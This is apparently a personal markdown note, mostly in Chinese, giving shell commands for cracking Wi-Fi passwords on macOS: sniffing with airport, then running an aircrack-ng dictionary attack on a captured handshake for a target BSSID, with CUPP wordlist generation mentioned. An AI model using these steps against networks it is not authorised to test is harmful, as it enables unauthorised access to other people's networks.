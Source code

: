 ## WPA2 - Wi-Fi Protected Access version 2



## WPA3 - Wi-Fi Protected Access version 3



## Reference

[NetSpot: Wireless Security Protocols: WEP, WPA, WPA2, and WPA3](https://www.netspotapp.com/wifi-encryption-and-security.html)



# 无线密码破解

## 使用Airport开启无线网卡监听

```shell
airport en0 sniff CHANNEL
```

其中CHANNEL是你想要监听的信道，与想要破解的wifi一致。

如果手贱不小心没有退出监听就关闭Terminal，可以使用

```shell
ps -A|grep airport
```

找到进程，从大杀到小，直到恢复。

```shell
sudo kill -9 进程号
```

## 使用Aircrack-ng

### Aircrack-ng简介

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上（设备列表请参阅其官方网站）并嗅探802.11a，802.11b，802.11g的数据。

### 安装aircrack-ng

```shell
brew install aircrack-ng
```

### 打开监听获得的cap文件

```shell
sudo aircrack-ng /tmp/airportSniff[某个自动生成的字段].cap
```

### 使用字典破解

```shell
sudo aircrack-ng -w PycharmProjects/WLAN/dict.txt -b [BSSID] /tmp/airportSniff[某个自动生成的字段].cap
```

## 使用CUPP生成字典

其实并不是很好用。